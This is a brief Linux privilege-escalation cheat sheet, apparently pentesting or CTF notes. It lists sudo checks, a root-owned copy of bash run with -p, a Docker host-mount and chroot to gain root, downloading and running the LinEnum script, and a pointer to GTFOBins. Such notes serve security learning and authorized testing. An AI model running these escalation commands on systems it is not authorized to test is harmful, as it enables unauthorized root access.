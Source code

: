 				Sudo 
Can you su without a password?		       su root
are you already a sudo user?			   sudo su -
what can we run with sudo?			  sudo -l

				Spawning root shells
Create a copy of /bin/bash or /bin/sh can you call it rootbash - make sure its owned by the root user. Then use /bin/bash -p to run it

				

				/etc/shadow overwrite

				Docker
-- get image name using 'docker ps'
-- docker run -v /:/mnt --rm -it $imagenamehere chroot /mnt sh

				LinEnum
-- wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
-- ./LinEnum.sh -t -r report.txt

				Misc
-- https://gtfobins.github.io/
